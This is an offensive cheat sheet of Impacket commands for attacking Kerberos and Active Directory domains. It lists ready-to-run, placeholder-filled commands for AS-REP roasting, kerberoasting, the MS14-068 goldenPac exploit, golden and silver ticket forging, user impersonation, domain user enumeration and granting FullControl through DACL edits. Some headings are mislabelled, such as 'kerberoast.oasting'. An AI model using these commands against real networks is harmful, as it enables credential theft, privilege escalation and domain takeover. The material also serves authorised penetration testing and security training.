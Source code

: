 # kerberos

#impacket
## GetNPUsers without password to get TGT (kerberoast.oasting)
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat -outputfile <outputfile|asrep.hashes>

```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ (kerberoast.oasting)
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file|users.txt> -format hashcat -outputfile <outputfile|asrep.hashes>
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account (kerberoasting)
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## GetUSERSPN - no preauth kerberoast
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/ -no-preauth <user> -usersfile <spnfile|users.txt> -outputfile <outputfile|kerberoast.hashes>
```

## MS14-068 - goldenPac
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:<password>@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## Ticketer - (silver ticket) - generate TGS tickets into ccache format which can be converted further into kirbi.
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impersonate user
```
getST.py -spn <service>/<target> <domain>/<user>:<password> -k -impersonate <target_user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
```
getTGT.py -dc-ip <dc_ip> <domain>/<user>:<password> 
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```

## dacledit.py - set dacl on target  
```
dacledit.py -action <action|write> -rights "<rights|FullControl>" -principal "<principal|$USER>" -target-dn "<target-dn>" "<domain>/<user>:<password>" <inheritance|-inheritance>
```

